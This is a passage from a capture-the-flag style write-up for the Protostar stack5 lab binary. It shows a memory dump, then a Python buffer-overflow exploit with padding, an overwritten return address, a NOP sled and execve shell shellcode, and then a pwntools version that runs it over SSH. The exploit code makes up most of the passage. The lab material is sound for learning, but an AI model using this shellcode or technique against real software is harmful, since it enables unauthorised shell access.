 ```bash
0xbffff790:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff7a0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff7b0:     0x43434343      0xb7ff6200      0xb7eadb9b      0xb7ffeff4
0xbffff7c0:     0x00000001      0x08048310      0x00000000      0x08048331
0xbffff7d0:     0x080483c4      0x00000001      0xbffff7f4      0x080483f0
0xbffff7e0:     0x080483e0      0xb7ff1040      0xbffff7ec      0xb7fff8f8
```
So the retturn address is 0xbffff750

<br/>

Now let's write and exploit to get a shell
```python
import struct
padding = 'A' * 76
ret = struct.pack("I",0xbffff750+8)
nops = "\x90"*50
shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret + nops + shellcode
```
I'll use struct to put the address in little endian, and the shellcode is from shellstorm, the nops are used because I don't know were the shellcode starts soI send a bunch of NOPs (No operation) so the code will go trough them until the shellcode.

<br/>

Now let's use it
```bash
$ (python /tmp/stack5.py;cat) | ./stack5
```

<br/>

And now the scripted way
```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)
p = s.run('sh')
p.sendline('/opt/protostar/bin/stack5')

payload = b'a'*76
payload += p32(0xbffff7b0+16)
payload += b'\x90'*50
payload += b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p.sendline(payload)
p.interactive()
```
